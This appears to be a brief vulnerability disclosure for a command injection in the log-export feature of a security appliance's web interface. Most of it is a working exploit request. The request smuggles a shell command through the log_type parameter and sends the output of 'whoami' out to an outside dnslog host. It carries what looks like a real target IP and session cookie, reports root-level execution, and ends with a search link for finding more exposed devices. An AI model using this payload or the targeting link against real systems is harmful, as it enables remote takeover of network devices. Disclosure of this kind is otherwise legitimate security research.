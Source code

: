 # code exec
In `webui/modules/log/fw_security.mds` after accepting the log_type parameter, without any filtering, it is directly spliced into the $table variable, and passed into exec, resulting in code execution.
![image](https://github.com/night-0p/CVE/assets/54882616/3fd651bf-98e3-4e86-a844-0f42f3099088)
test steps:  
1， First obtain a dnslog domain name through http://dnslog.cn/  
2，send exp:  
```
GET /webui/?g=log_fw_export&log_type=%26/bin/?ing${IFS}`whoami`.9ud6dz.dnslog.cn HTTP/1.1
Host: 183.230.154.102:4443
Cookie: USGSESSID=8944257a6431dd049e456e23cf40833b
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://183.230.154.102:4443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://183.230.154.102:4443/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
The following is the result of executing `whoami`. root authority.  
<img width="1247" alt="image" src="https://github.com/night-0p/CVE/assets/54882616/4fc5085b-9000-4283-a242-b557c69b2bba">  
this Website fingerprinting:  
https://fofa.info/result?qbase64=YXBwPSLlronmgZLkv6Hmga8t5piO5b6h5a6J5YWo572R5YWzIg%3D%3D

